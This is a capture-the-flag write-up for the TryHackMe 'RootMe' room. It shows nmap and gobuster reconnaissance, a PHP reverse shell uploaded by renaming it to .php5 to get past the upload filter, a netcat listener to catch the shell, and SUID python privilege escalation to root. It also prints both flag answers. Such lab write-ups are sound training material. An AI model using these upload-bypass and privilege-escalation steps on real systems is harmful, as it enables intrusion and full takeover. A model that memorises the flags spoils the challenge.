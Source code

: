 # [RootMe](https://tryhackme.com/room/rrootme)

> A ctf for beginners, can you root me?

## Scanning

Scan ports using nmap

```
nmap -A -T4 10.10.124.205
```

![image](https://user-images.githubusercontent.com/90561566/185150824-10d60d8a-863d-4d46-a0cc-e73a1b4a6564.png)

We found 2 open ports 22 (ssh) and 80 (http)

## HTTP

Go to web page and view source, nothing here

![image](https://user-images.githubusercontent.com/90561566/185151799-787cf8d6-0181-4108-9e5f-5f58c40a78f1.png)

## Enumeration

We use gobuster to enummerate directory on web server

```
gobuster dir -u http://10.10.124.205/ -w /usr/share/wordlists/dirb/common.txt -t 30
```

![image](https://user-images.githubusercontent.com/90561566/185151165-ba637adf-7163-411b-82a3-c5cb4b55b00b.png)

we can see hidden directory called /panel/

we access to /panel/ directory and see a page like this

![image](https://user-images.githubusercontent.com/90561566/185151923-c2a7b30c-c64b-4fe0-8055-71d086bed059.png)

## Exploitation

This step requires us to upload a webshell, in Kali has one `/usr/share/webshells/php/php-reverse-shell.php`

```
cp /usr/share/webshells/php/php-reverse-shell.php reverse.php
vi reverse.php
```

![image](https://user-images.githubusercontent.com/90561566/185154118-fc350cae-82f7-44a5-be22-ee66845e1802.png)

at line 49,50 change ip to your machine and port is 4444 (you can choose another)

Let's upload it to the panel

![image](https://user-images.githubusercontent.com/90561566/185154791-fa36b086-3be3-4900-906d-03a5b7db3281.png)

Looks like the exploit is being declined, let search `file upload bypass php`

So we can change its extension to .phtml, .php, .php3, .php4, .php5, and .inc

```
mv reverse.php reverse.php5
```

![image](https://user-images.githubusercontent.com/90561566/185155614-a2186136-88f5-448c-9f33-9fe636f9672c.png)

the trick has successful

![image](https://user-images.githubusercontent.com/90561566/185155819-cecf03bd-22d5-4a76-a40a-f502177bb659.png)

Now we need to setup netcat on our machine to listen reverse shell

```
nc -lnvp 4444
```

back to gobuster output, go to /uploads/ directory

![image](https://user-images.githubusercontent.com/90561566/185156529-ba2b2f5e-42f9-4837-bfe6-41e9d8a6a3d9.png)

open it and go back the netcat

![image](https://user-images.githubusercontent.com/90561566/185157240-b2555a36-83a8-4a42-8454-f1ef8a2b68c2.png)

![image](https://user-images.githubusercontent.com/90561566/185157418-b272cbbb-fc87-4e00-b61f-c3a0b22f32d0.png)

the answer on this location

```
find / -name user.txt 2>/dev/null
```

![image](https://user-images.githubusercontent.com/90561566/185158854-16fa3345-3891-4f22-af75-060564f2f28b.png)

| Flag | user.txt |
| --- | --- |
| Answer | THM{y0u_g0t_a_sh3ll} |

## Privilege Escalation

The first step is to search for files with SUID permissions

```
find / -user root -perm /4000 2>/dev/null
```

![image](https://user-images.githubusercontent.com/90561566/185160041-9c37daa0-b802-4d84-8a10-0857ec5d2e48.png)

we found a lot of files with SUID permissions

i can see `/usr/bin/python` that mean we can execute python with root privileges

using [gtfobins/python/suid](https://gtfobins.github.io/gtfobins/python/#suid), i found a command

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![image](https://user-images.githubusercontent.com/90561566/185163596-9782ef45-09e4-40de-93ef-11067ba3b2b8.png)

| Flag | root.txt |
| --- | --- |
| Answer | THM{pr1v1l3g3_3sc4l4t10n} |
